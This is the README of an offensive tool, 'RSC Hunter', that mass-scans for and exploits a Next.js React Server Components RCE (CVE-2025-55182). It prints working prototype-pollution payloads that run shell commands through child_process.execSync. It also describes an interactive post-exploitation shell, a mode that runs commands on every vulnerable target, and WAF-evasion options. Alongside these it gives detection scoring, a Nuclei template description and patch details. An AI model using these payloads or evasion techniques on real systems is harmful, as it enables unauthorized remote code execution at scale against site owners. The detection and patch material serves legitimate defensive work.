

# RSC Hunter

<div align="center">

**A high-performance mass vulnerability scanner for CVE-2025-55182**

Targeting React Server Components (RSC) in Next.js applications with advanced detection methods, dual exploit techniques, and an interactive command shell for post-exploitation.

[](https://github.com/sumanrox/rschunter/actions/workflows/ci.yml)

**Created by [Suman Roy](https://github.com/sumanrox)** 🌐 [sumanroy.in](https://sumanroy.in)

</div>
## Overview

CVE-2025-55182 is a critical remote code execution vulnerability affecting Next.js applications using React Server Components. The vulnerability stems from unsafe prototype property access during deserialization of the React Flight Protocol, allowing attackers to achieve RCE through prototype pollution chains.

**RSC Hunter** provides comprehensive scanning capabilities with:
- Multi-layered detection (passive, active, error-based)
- Dual exploit methods with automatic fallback
- Mass scanning with concurrent processing
- Interactive shell for vulnerable targets
- Resume/pause capability with state persistence
- Live vulnerability discovery in real-time
- **Nuclei template** for vulnerability scanning
- **NEW**: WAF bypass capabilities for evasion
- **NEW**: Windows target support (PowerShell payloads)
- **NEW**: Vercel/Netlify mitigation detection
- **NEW**: X-Action-Redirect RCE proof detection
- **NEW**: Automatic redirect following

## 📸 Screenshot

<div align="center">



*Mass scanning 2,264 targets with live vulnerability detection and beautiful terminal output*

> **Note:** Domain names are blurred for privacy reasons

</div>

## Features

### Detection Capabilities

**Passive Scanning**
- Content-Type fingerprinting (`text/x-component`)
- React Flight Protocol pattern detection
- Next.js build artifact identification
- Server action header analysis
- Version detection and extraction
- **X-Action-Redirect header** RCE proof detection (definitive indicator)
- `__NEXT_DATA__` runtime marker detection
- Shodan-identified headers (x-nextjs-prerender, x-nextjs-stale-time)
- x-middleware-rewrite detection (critical exploit condition)
- x-middleware-subrequest header presence
- Enhanced Vary header analysis (RSC, Next-Router-State-Tree)
- **Mitigation filtering**: Vercel/Netlify protection detection

**Active Fingerprinting**
- RSC header probing (`RSC: 1`)
- Next.js endpoint enumeration
- Webpack chunk detection
- Vary header validation
- React Flight Protocol format detection

**Error-Based Detection**
- REACT2SHELL_PROBE benign marker injection
- Prototype pollution payload injection
- React deserialization error analysis
- Behavioral response fingerprinting
- **Mitigation detection**: Filters false positives from protected hosts
- Works even on hardened targets
- No OS commands executed during detection

### Exploitation

**Triple Exploit Methods** (Automatic fallback chain)
1. **Primary (Method 3)**: msanft's PoC - `__proto__` pollution via base URL (most reliable)
2. **Alternative (Method 2)**: Assetnote format with `_chunks` field and multiple endpoints
3. **Fallback (Method 1)**: Function constructor injection via chunk references

All methods automatically attempted in order for maximum reliability.

**Command Execution**
- Execute arbitrary commands on vulnerable targets
- Output extraction via NEXT_REDIRECT digest parsing
- Base URL-first approach for reliability
- Intelligent endpoint fallback when needed

**Reporting & Output**
- CSV export of vulnerable targets only (domain + full URL)
- No files saved by default (clean workspace)
- Structured data format for easy analysis
- Automatic timestamped filenames

### Interactive Shell

**Single Target Mode**
```bash
python3 rschunter.py --url https://target.com -sh
```

**Mass Scanning Mode**
```bash
python3 rschunter.py targets.txt -sh --threads 20
```

Shell features:
- Live vulnerability discovery updates
- Multi-target switching (`switch` command)
- Target enumeration (`targets` command)
- Background scanning while interacting
- Clean target filtering (only shows vulnerable/errors)

## Architecture

### Modular Structure

RSC Hunter is organized into clean, maintainable modules:

```
rschunter/
├── rschunter.py          # Main scanner with CLI
├── lib/
│   ├── exploits.py       # Exploitation methods (3 techniques)
│   ├── validators.py     # RCE validation & WAF detection
│   └── utils.py          # Colors, junk data generation
├── test_rschunter.py     # Comprehensive test suite
└── nuclei-template.yaml  # Nuclei integration
```

**Core Modules:**

- **exploits.py**: Contains all three exploitation methods
  - `exploitMethod3()` - msanft's working PoC (primary)
  - `exploitMethod2()` - Assetnote format with `_chunks`
  - `exploitMethod1()` - Function constructor fallback
  - `executeRemoteCommand()` - Intelligent method chaining

- **validators.py**: Detection and validation logic
  - `validateRCE()` - X-Action-Redirect header validation (11111 marker)
  - `is_waf_block()` - WAF/firewall detection
  - Handles validation as non-blocking advisory check

- **utils.py**: Helper functions
  - `Colors` - Terminal color constants
  - `generate_junk_data()` - WAF bypass junk generation

## Installation

### Requirements

- Python 3.7+
- Dependencies:
  - `requests` - HTTP client with retry logic
  - `urllib3` - Connection pooling

### Setup

```bash
# Clone or download the tool
cd rschunter/

# Install dependencies
pip3 install requests urllib3

# Make executable (optional)
chmod +x rschunter.py
```

### Virtual Environment (Recommended)

```bash
python3 -m venv venv
source venv/bin/activate
pip install requests urllib3
```

## Target File Format

RSC Hunter features **smart URL normalization** - you can use any format:

```text
# Simple domains (auto-detects https://)
example.com
api.example.com
sub.domain.co.uk

# Domains with ports
example.com:8080
api.example.com:443

# Domains with paths
example.com/api/v1
target.com/admin?key=value

# Local/private IPs (auto-detects http://)
192.168.0.58:3000
10.0.0.1:8080
127.0.0.1:3000
localhost:3000

# Full URLs (preserves your scheme)
http://insecure-site.com
https://secure-api.com:8443/v1

# Mixed - all formats in one file
192.168.1.100:3000
example.com
localhost:8080
https://api.target.com/v2
```

**Smart Scheme Detection:**
- **Private/Local IPs** → Automatically uses `http://`
  - 192.168.x.x, 10.x.x.x, 127.x.x.x, 172.16-31.x.x
  - localhost, 169.254.x.x (link-local)
- **Public Domains** → Automatically uses `https://`
- **Explicit URLs** → Preserves your specified scheme

No need to manually add `http://` or `https://` - the scanner figures it out!

## Usage

### Basic Scanning

**Single URL**
```bash
python3 rschunter.py --url https://example.com
```

**Multiple targets from file**
```bash
python3 rschunter.py targets.txt
```

**With custom thread count**
```bash
python3 rschunter.py targets.txt --threads 20
```

**Enable debug output**
```bash
python3 rschunter.py targets.txt --debug
```

**Debug mode shows:**
- RCE validation attempts
- Detailed method execution flow
- Response status codes
- Response previews
- Digest extraction process

### Interactive Shell

**Single target with shell**
```bash
python3 rschunter.py --url https://example.com -sh
```

**Mass scan with live shell**
```bash
python3 rschunter.py targets.txt -sh --threads 15
```

Shell commands:
```
rsc[1/5|example.com]> whoami        # Execute command
rsc[1/5|example.com]> targets       # List vulnerable targets
rsc[1/5|example.com]> switch 3      # Switch to target #3
rsc[1/5|example.com]> info          # Show current target
rsc[1/5|example.com]> exit          # Exit shell
```

### Command Execution

**Execute command on all vulnerable targets**
```bash
python3 rschunter.py targets.txt -exec "whoami"
```

**Use placeholder for URL**
```bash
python3 rschunter.py targets.txt -exec "echo Vulnerable: {}"
```

### Resume Capability

**Resume interrupted scan**
```bash
python3 rschunter.py --resume
```

Scan state is automatically saved to `scan_state.json` every 10 targets.

### Advanced Features

#### WAF Bypass Mode

Evade Web Application Firewalls that inspect request content:

**Enable WAF bypass with default 128KB junk data:**
```bash
python3 rschunter.py targets.txt --waf-bypass
```

**Custom junk data size:**
```bash
python3 rschunter.py targets.txt --waf-bypass --waf-bypass-size 256
```

**How it works:**
- Prepends random junk data to multipart request body
- WAFs typically only inspect first portion of requests
- Automatically increases timeout to 20s
- Effective against content-based WAF rules

#### Vercel WAF Bypass

Specialized payload for Vercel WAF protection:

```bash
python3 rschunter.py --url https://example.vercel.app --vercel-waf-bypass
```

**Features:**
- Alternative multipart structure
- Escaped dollar signs for Vercel parsing
- Additional form field to bypass signature checks

#### Proxy Support (Burp Suite)

Route all traffic through a proxy for inspection and debugging:

```bash
# Using command-line argument
python3 rschunter.py --url https://example.com --proxy http://127.0.0.1:8080

# Using environment variable
export HTTP_PROXY=http://127.0.0.1:8080
python3 rschunter.py --url https://example.com
```

**Features:**
- Routes all HTTP/HTTPS traffic through specified proxy
- Automatically disables SSL verification for MITM proxies
- Suppresses SSL warnings for clean output
- Perfect for Burp Suite, mitmproxy, or other inspection tools
- Supports both `--proxy` flag and `HTTP_PROXY`/`HTTPS_PROXY` env vars

**Common Proxy URLs:**
- Burp Suite: `http://127.0.0.1:8080`
- mitmproxy: `http://127.0.0.1:8080`
- ZAP: `http://127.0.0.1:8090`

#### Windows Target Support

Scan Windows-based Next.js applications:

```bash
python3 rschunter.py --url https://windows-target.com --windows
```

**Behavior:**
- Switches from Unix shell (`echo $((41*271))`) to PowerShell
- Payload: `powershell -c "command"`
- Automatically adjusts command execution syntax
- Compatible with Windows Server environments

#### Redirect Following

Automatically follow same-host redirects (enabled by default):

```bash
# Follows redirects (default)
python3 rschunter.py --url https://example.com

# Disable redirect following
python3 rschunter.py --url https://example.com --no-follow-redirects
```

**How it works:**
- Tests root path first
- Follows redirects to final destination (e.g., `/` → `/en/`)
- Only follows same-host redirects (security measure)
- Cross-origin redirects are not followed
- Adds redirect information to scan results

#### Combined Advanced Usage

**Maximum evasion configuration:**
```bash
python3 rschunter.py targets.txt \\
  --waf-bypass \\
  --waf-bypass-size 256 \\
  --threads 20 \\
  --follow-redirects
```

**Windows targets with Vercel bypass:**
```bash
python3 rschunter.py windows-targets.txt \\
  --windows \\
  --vercel-waf-bypass \\
  --threads 15
```

**Debug mode for troubleshooting:**
```bash
python3 rschunter.py --url https://example.com --debug
```

**Debug output includes:**
- RCE validation details (11111 marker check)
- Exact URLs being tested
- HTTP response status codes
- Response body previews (first 200 chars)
- Digest extraction matches
- Method execution flow

### Output

**CSV Report Generation**

By default, no files are saved. Use `--save` to export vulnerable targets:

```bash
python3 rschunter.py targets.txt --save
```

This creates a CSV file (e.g., `rsc-scan_20251207_143022.csv`) containing **only vulnerable targets** with the following columns:
- Domain
- URL  
- Passive detection (Yes/No)
- Active detection (Yes/No)
- Endpoint vulnerable (Yes/No)
- Command execution output
- Detection details
- Timestamp

**Custom output filename:**
```bash
python3 rschunter.py targets.txt --save -o vulnerables.csv
```

**State Management**

Scan state is automatically saved every 10 targets to `scan_state_<timestamp>.json` for resume capability:
```bash
python3 rschunter.py --resume
```

## Nuclei Integration

### Nuclei Template

RSC Hunter includes a comprehensive Nuclei template (`nuclei-template.yaml`) for integration with your vulnerability scanning workflows. The template implements all detection methods in Nuclei's YAML format for use alongside the standalone scanner.

**Features:**
- 5 request layers (passive, active, error-based)
- Multi-matcher logic with confidence levels
- REACT2SHELL_PROBE benign marker detection
- Shodan-identified header checks
- Flight Protocol pattern matching
- Comprehensive extractors for analysis

### Usage with Nuclei

**Single target scan:**
```bash
nuclei -t nuclei-template.yaml -u https://example.com
```

**Multiple targets:**
```bash
nuclei -t nuclei-template.yaml -l targets.txt
```

**Integration with Nuclei workflows:**
```bash
# Scan with all CVE templates including CVE-2025-55182
nuclei -t nuclei-templates/cves/ -t nuclei-template.yaml -l targets.txt

# Scan with specific tags
nuclei -t nuclei-template.yaml -tags nextjs,rce -l targets.txt

# Output to file
nuclei -t nuclei-template.yaml -l targets.txt -o results.txt -json
```

**Nuclei Cloud Platform integration:**
```bash
# Run as part of continuous scanning
nuclei -t nuclei-template.yaml -l assets.txt -cloud-upload
```

### Template Structure

The Nuclei template includes:

**Detection Matchers:**
- `react2shell-probe-confirmed` - High confidence via benign probe
- `rsc-multiple-indicators` - Multiple RSC patterns detected
- `rsc-content-type` - RSC Content-Type header
- `middleware-headers-present` - Critical exploit conditions
- `shodan-indicators` - Shodan-identified headers
- `error-based-detection` - Error pattern analysis
- `flight-protocol-patterns` - React Flight Protocol

**Extractors:**
- Next.js version detection
- Middleware headers extraction
- Vary header analysis
- Error digest extraction
- Flight chunk pattern capture

### Template Validation

**Validate template syntax:**
```bash
nuclei -t nuclei-template.yaml -validate
```

**Test against known vulnerable target:**
```bash
nuclei -t nuclei-template.yaml -u http://vulnerable-target.local
```

## Command Reference

### Options

| Flag | Description | Default |
|------|-------------|---------|
| `--url` | Single target URL or domain | - |
| `--input-file` | File with target list (one per line) | - |
| `--threads` | Number of concurrent workers | 10 |
| `--resume` | Resume from saved state | - |
| `-sh, --shell` | Interactive shell mode | disabled |
| `-exec` | Execute command on vulnerable targets | - |
| `-o, --output` | Output report filename | rsc-report.txt |
| `--waf-bypass` | Enable WAF bypass mode (junk data) | disabled |
| `--waf-bypass-size` | WAF bypass junk data size (KB) | 128 |
| `--windows` | Use PowerShell payloads for Windows | disabled |
| `--vercel-waf-bypass` | Vercel-specific WAF bypass | disabled |
| `--proxy` | Proxy URL for traffic inspection | - |
| `--follow-redirects` | Follow same-host redirects | enabled |
| `--no-follow-redirects` | Disable redirect following | - |

### Input File Format

```
# Comments start with #
example.com
https://test.example.net
subdomain.example.org:8080

# Blank lines are ignored
api.example.com/path
```

URL normalization:
- Automatically adds `https://` if missing
- Preserves paths and query parameters
- Handles custom ports
- Removes trailing slashes

## Detection Methodology

### Scoring System

The scanner uses weighted confidence scoring (threshold: 50 points):

| Indicator | Points | Description |
|-----------|--------|-------------|
| `text/x-component` | 100 | Definitive RSC response |
| **X-Action-Redirect** | 100 | **RCE proof** - Output reflection in header |
| `window.__next_f` | 80 | Next.js flight data |
| x-middleware-subrequest | 50 | Exploit condition header |
| RSC payload structure | 50 | `{"then": "$..."}` format |
| `$L/$@ patterns` | 45 | Flight protocol references |
| React Flight Protocol | 45 | Chunk format match |
| x-middleware-rewrite | 40 | Critical middleware indicator |
| `react-server-dom-webpack` | 30 | RSC library presence |
| x-nextjs-prerender | 30 | Shodan-identified header |
| Vary: RSC | 35 | RSC content negotiation |
| Next-Action header | 35 | Server action support |
| Vary: Next-Router-State-Tree | 30 | App Router presence |
| __NEXT_DATA__ | 25 | Runtime marker |
| x-nextjs-stale-time | 25 | ISR indicator |
| Build artifacts | 25 | `/_next/static/` present |
| Vary: Next-Router-Prefetch | 20 | Prefetch capability |
| Next.js version | 20 | Informational |

### Mitigation Detection

RSC Hunter automatically detects and filters false positives from hosts with mitigations:

**Detected Mitigations:**
- **Vercel Protection**: `Server: vercel` header
- **Netlify Protection**: `Server: netlify` or `Netlify-Vary` header

Hosts with these protections are marked as mitigated and not reported as vulnerable, reducing false positive rates.

### Real-World Attack Surface Analysis

Based on research from the security community (Reddit analysis):

**Shodan Query Results**:
- `"X-Powered-By: Next.js"` → ~756,261 hosts
- `"x-middleware" + "X-Powered-By: Next.js"` → ~1,713 hosts (narrowed)
- Middleware + RSC/Flight headers → ~350 hosts (actual attack surface)
- With port:3000 filter → 15,000+ potentially exposed
- Without port filter → 56,000+ potentially exposed

**Key Findings**:
The vulnerability requires a specific combination of:
1. Certain routes with middleware
2. Specific middleware behavior (`x-middleware-subrequest`)
3. React Server Components enabled
4. Particular App Router flows

**Real-world exploitation is harder than PoCs suggest** - Most Next.js instances are not vulnerable due to missing one or more required conditions.

### REACT2SHELL_PROBE Detection

Advanced benign detection method:

```javascript
{
  "then": "$1:__proto__:then",
  "status": "resolved_model",
  "reason": -1,
  "value": '{"then": "$B0"}',
  "_response": {
    "_prefix": "throw Object.assign(new Error('NEXT_REDIRECT'), {digest:'REACT2SHELL_PROBE'});",
    "_formData": {
      "get": "$1:constructor:constructor"
    }
  }
}
```

**Advantages**:
- No OS command execution during detection
- Returns fixed marker (`REACT2SHELL_PROBE`) in digest
- High confidence vulnerability confirmation
- Safe for automated scanning
- Based on actual research and lab testing

### Endpoint Testing

Tested paths:
- `/_next/data` - Standard Next.js data endpoint
- `/spectre-ghost` - Random path (any path works on vulnerable targets)
- `/api/actions` - Common API convention
- `/` - Root path

### Error-Based Detection

Sends minimal proto pollution payload:
```json
{"0": {"then":"$1:__proto__:constructor"}, "1": {}}
```

Analyzes error responses for:
- `SyntaxError: Unexpected token 'function'`
- React chunk parsing errors
- Native code references
- Prototype pollution indicators

## Security & Responsible Use

### Warning

This tool is designed for authorized security testing only. Unauthorized scanning or exploitation may violate:
- Computer Fraud and Abuse Act (CFAA)
- Computer Misuse Act
- Local cybersecurity laws
- Terms of service agreements

### Responsible Disclosure

If you discover vulnerabilities using this tool:
1. Report to the affected organization's security team
2. Allow reasonable time for patching (typically 90 days)
3. Do not publicly disclose details prematurely
4. Follow coordinated disclosure practices

### Legal Use Cases

- Authorized penetration testing
- Bug bounty programs
- Internal security assessments
- Research with explicit permission
- Security training in controlled environments

## Technical Details

### Vulnerability Background

CVE-2025-55182 exploits React's Flight Protocol deserialization:

1. **Prototype Pollution**: Access `__proto__` via chunk references
2. **Function Constructor**: Retrieve `Function` constructor through prototype chain
3. **Code Injection**: Craft payload to execute arbitrary JavaScript
4. **RCE**: Execute system commands via `child_process.execSync`

### Exploit Chain

```
Client Payload → Next.js Action Handler → decodeReplyFromBusboy
→ Chunk Deserialization → Prototype Access (no validation)
→ Function Constructor → Code Execution → Command Output
```

### Payload Structure

RSC Hunter uses three exploitation methods in priority order:

**Method 3 (Primary)**: msanft's PoC - Direct base URL approach
```javascript
{
  "then": "$1:__proto__:then",
  "status": "resolved_model",
  "reason": -1,
  "value": '{"then": "$B0"}',
  "_response": {
    "_prefix": "var res = process.mainModule.require('child_process').execSync('cmd',{'timeout':5000}).toString().trim(); throw Object.assign(new Error('NEXT_REDIRECT'),{digest:`${res}`});",
    "_formData": {"get": "$1:constructor:constructor"}
  }
}
```
- **Most reliable method** - proven to work on real vulnerable servers
- Sends directly to base URL (no endpoint enumeration)
- Captures output via `digest` field in NEXT_REDIRECT error
- Based on msanft's working PoC

**Method 2 (Alternative)**: Assetnote format with `_chunks` field
```javascript
{
  "then": "$1:__proto__:then",
  "status": "resolved_model",
  "reason": -1,
  "value": '{"then": "$B1337"}',
  "_response": {
    "_prefix": "var res=process.mainModule.require('child_process').execSync('cmd').toString().trim();;throw Object.assign(new Error('NEXT_REDIRECT'),{digest:`NEXT_REDIRECT;push;/login?a=${res};307;`});",
    "_chunks": "$Q2",
    "_formData": {"get": "$1:constructor:constructor"}
  }
}
```
- Includes `_chunks` field for additional compatibility
- Tests multiple endpoints (`/_next/data`, `/adfa`)
- Used when Method 3 fails

**Method 1 (Fallback)**: Function constructor injection
```javascript
{
  "1": 'I["$1:constructor:constructor"]',
  "2": 'I["command"]',
  "3": 'I["return process.mainModule.require(\'child_process\').execSync(arguments[0]).toString()"]',
  "4": 'I["$3($2)"]'
}
```
- Alternative payload structure
- Last resort when prototype pollution methods fail

### Exploitation Flow

```
1. RCE Validation (Non-blocking)
   ├─ Send: echo $((41*271))
   ├─ Check: X-Action-Redirect header contains "11111"
   └─ Continue even if validation fails

2. Method 3 (msanft PoC)
   ├─ Send to base URL directly
   ├─ Extract digest from NEXT_REDIRECT error
   └─ Success? → Return output

3. Method 2 (Assetnote format)
   ├─ Try /_next/data endpoint
   ├─ Try /adfa endpoint
   └─ Success? → Return output

4. Method 1 (Function constructor)
   ├─ Try multiple endpoints
   └─ Success? → Return output

5. Mark as protected/not exploitable
```

### Debug Mode

Enable verbose logging to see the full exploitation process:

```bash
python3 rschunter.py --url https://target.com -exec "id" --debug
```

**Debug output shows:**
- RCE validation attempt (echo $((41*271)) → 11111)
- Exact URL being tested
- HTTP response status codes
- Response body preview (first 200 chars)
- Digest extraction matches
- Method success/failure

### Patch Status

Fixed in:
- React 19.0.0+ (commit e2fd5dc)
- Next.js 15.1.4+ / 14.2.24+ / 13.5.8+

Patch adds `hasOwnProperty` check:
```javascript
if (hasOwnProperty.call(moduleExports, metadata[NAME])) {
  return moduleExports[metadata[NAME]];
}
```

## References & Research Credits

### Primary Research

- **Suman Roy (@sumanrox)** - RSC Hunter Tool & Detection Methods
  - Repository: https://github.com/sumanrox/rschunter
  - Website: https://sumanroy.in
  - Comprehensive vulnerability scanner with multi-layered detection
  - REACT2SHELL_PROBE benign marker methodology
  - Nuclei template integration

### Security Advisories

- **CVE-2025-55182** - React Server Components RCE
  - NVD: https://nvd.nist.gov/vuln/detail/CVE-2025-55182
  - Severity: Critical (CVSS score pending)
  - Affected: Next.js < 15.1.4, 14.2.24, 13.5.8

- **CVE-2025-66478** - Rejected (Duplicate of CVE-2025-55182)
  - Status: Consolidated into CVE-2025-55182
  - Same behavior, different identifier

### Community Analysis

- **Reddit Security Research** - Real-world attack surface analysis
  - Shodan query narrowing (756K → 1.7K → 350 hosts)
  - Exploit condition requirements documentation
  - Middleware + RSC header correlation analysis

### Vendor Resources

- **Vercel/Next.js** - Official security advisories
  - GitHub Security Advisory
  - Patched versions: 15.1.4, 14.2.24, 13.5.8
  - Migration guides for affected applications

### Additional Research

- **Wiz Security** - Initial disclosure and analysis
- **Palo Alto Networks** - Threat assessment
- **Tenable** - Vulnerability research

## Acknowledgments

**Created by:**
- **Suman Roy** (@sumanrox)
  - GitHub: https://github.com/sumanrox
  - Website: https://sumanroy.in
  - Tool Repository: https://github.com/sumanrox/rschunter

**Special thanks to:**
- **Security research community** for comprehensive CVE-2025-55182 analysis and lab environments
- **ProjectDiscovery** for Nuclei framework enabling community-driven vulnerability detection
- Security researchers who disclosed and analyzed the vulnerability responsibly
- Next.js team for rapid patching and security advisories
- Shodan for enabling real-world attack surface analysis

## Testing

### Run Unit Tests

```bash
python3 test_rschunter.py
```

Tests cover:
- URL parsing and normalization
- Detection methods (passive, active, endpoint)
- State management and resume
- Exploit payload generation
- Interactive shell functionality
- Error handling and edge cases

### Test Coverage

- URL Parser: 8 tests
- State Manager: 4 tests
- RSC Scanner: 3 tests
- Mass Scanner: 1 test
- Scan Result: 1 test

## Performance

### Benchmarks

- Single target scan: ~2-5 seconds
- Mass scan (100 targets, 10 threads): ~30-60 seconds
- Memory usage: ~50-100MB base + ~5MB per thread

### Optimization Tips

1. **Thread Tuning**: Adjust `--threads` based on network bandwidth
   - Fast network: 20-50 threads
   - Standard: 10-20 threads
   - Slow/unstable: 5-10 threads

2. **Resume Points**: Scan state saved every 10 targets for quick recovery

3. **Timeout**: Default 10s per request (configurable in code)

## Troubleshooting

### Common Issues

**Import errors**
```bash
pip3 install requests urllib3
```

**Permission denied**
```bash
chmod +x rschunter.py
```

**Connection timeouts**
- Reduce thread count: `--threads 5`
- Check network connectivity
- Verify target accessibility

**No vulnerabilities found**
- Ensure targets run Next.js with RSC
- Check if targets are patched
- Verify URL format in input file

**Shell not starting**
- Requires `-sh` flag
- Only works with vulnerable targets
- Check detection methods found indicators

## Contributing

Contributions welcome! Areas for improvement:

- Additional detection signatures
- More exploit variations
- Performance optimizations
- Documentation enhancements
- Test coverage expansion

## References

- [CVE-2025-55182 PoC](https://github.com/sumanrox/CVE-2025-55182)
- [React Server Functions](https://react.dev/reference/rsc/server-functions)
- [React Flight Protocol](https://tonyalicea.dev/blog/understanding-react-server-components/)
- [Next.js Security Advisories](https://github.com/vercel/next.js/security/advisories)

## Credits

**CVE Discovery**: Security researchers who identified the vulnerability  
**PoC Reference**: sumanrox/CVE-2025-55182  
**Tool Development**: Spectre

## License

This tool is provided for educational and authorized security testing purposes only. Use responsibly and ethically.

## Changelog

### v2.0.0 (2025-12-06)
- Added interactive shell mode
- Dual exploit methods with fallback
- Enhanced detection (9+ indicators)
- Error-based detection
- Mass scan with live shell
- Multi-target switching
- Background scanning support

### v1.0.0 (2025-12-05)
- Initial release
- Basic scanning functionality
- Resume capability
- Report generation
